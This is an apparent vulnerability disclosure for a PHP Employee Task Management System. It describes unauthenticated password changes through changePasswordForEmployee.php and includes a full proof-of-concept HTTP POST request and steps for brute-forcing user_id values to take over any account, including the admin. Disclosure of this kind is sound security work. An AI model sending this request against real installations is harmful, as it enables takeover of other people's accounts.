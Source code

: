 # Employee Task Management System - Broken Authentication leads to compromise of all application accounts by changing the password

### Date: 
> 17 February 2023
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken authentication occurs when the authentication mechanisms in a web application are not implemented correctly, allowing an attacker to bypass them and gain unauthorized access to the application's features and resources. If an attacker is able to exploit broken authentication and gain access to a user's account, they may be able to change the account password, effectively locking the legitimate user out of the system. This is particularly dangerous because if the attacker can compromise one user account, they may be able to use that account to gain access to other accounts and escalate their privileges, potentially compromising the entire system.
### Affected Page:
> changePasswordForEmployee.php

> On this page, application isn't verifying the authentication/authorization mechanism. Due to that, all the parameters are vulnerable to broken authentication.

### Description:
> Broken Authentication allows unauthenticated remote attacker to change password of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: changePasswordForEmployee.php
2. Type any random password which needs to update against any user id and submit
3. Intercept that request through Burp Suite
4. Request:
```
POST /etms/changePasswordForEmployee.php HTTP/1.1
Host: localhost
Content-Length: 277
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/etms/changePasswordForEmployee.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close

user_id=%3Cbr+%2F%3E%0D%0A%3Cb%3EWarning%3C%2Fb%3E%3A++Undefined+variable+%24user_id+in+%3Cb%3EC%3A%5Cxampp%5Chtdocs%5Cetms%5CchangePasswordForEmployee.php%3C%2Fb%3E+on+line+%3Cb%3E34%3C%2Fb%3E%3Cbr+%2F%3E%0D%0A&password=admin%23123&re_password=admin%23123&change_password_btn=
```
5. because the "user_id" parameter is not set due to missing authentication, so we need to set the user_id manually. By default user_id 1 is for admin and we can use intruder to bruteforce this step with incremental value. Whenever the server will find the correct user_id, it will change the password and log in to the application.
6. Successful exploit screenshots are below (without cookie parameter)

![image](https://user-images.githubusercontent.com/123810418/219798138-747388d7-378b-4d1b-9862-1356e52a0c72.png)

![image](https://user-images.githubusercontent.com/123810418/219798264-f04bcda9-a833-4010-a40b-076a38199938.png)

![image](https://user-images.githubusercontent.com/123810418/219798299-5ba92752-d218-4aaa-b123-5258df37ce38.png)

7. Vulnerable Code Snippets:

![image](https://user-images.githubusercontent.com/123810418/219799518-50d3eb1a-0091-4229-b7d0-7621d79cc168.png)

![image](https://user-images.githubusercontent.com/123810418/219799657-42b9a71c-539c-4e91-bec8-0d7fd40cb3ed.png)

### Recommendation:
> Whoever uses this CMS, should update the authentication and authorization mechanism on top of the changePasswordForEmployee.php as per their requirement to avoid a Broken Authentication attack:
